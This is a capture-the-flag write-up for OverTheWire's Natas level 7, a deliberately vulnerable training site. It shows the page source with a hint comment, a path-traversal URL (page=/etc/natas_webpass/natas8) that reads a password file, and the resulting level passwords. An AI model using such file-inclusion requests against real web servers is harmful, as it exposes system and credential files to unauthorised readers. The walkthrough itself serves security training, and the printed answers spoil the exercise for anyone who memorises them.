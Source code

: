 # Natas Level 6 → Level 7 File inclusion Vulnerability from path traversal

## Previous Flag
<b>bmg8SvU1LizuWjx3y7xkNERkHxGre0GS</b>

## Goal
Username: natas7<br>
URL: http://natas7.natas.labs.overthewire.org<br>

Home About

## What I learned
```
Nothing
```

## Solution
```
F12 → Elements

<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
this is the front page

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 --> 👀
</div>

<div id="wechallform" class="ui-draggable" style="display: block;"><p>Submit token</p><form id="realwechallform" action="https://www.wechall.net/10-levels-on-Natas.html" enctype="application/x-www-form-urlencoded" method="post"><input type="hidden" name="wfid" value="8"><input type="hidden" name="password_solution" value="bmg8SvU1LizuWjx3y7xkNERkHxGre0GS"><input type="hidden" name="igotitnow" value="Register"></form></div></body>

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8 ⌨️
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q 🔐
```

## Flag
<b>xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q</b>

## Continue
[Continue](/overthewire/Natas0708.md)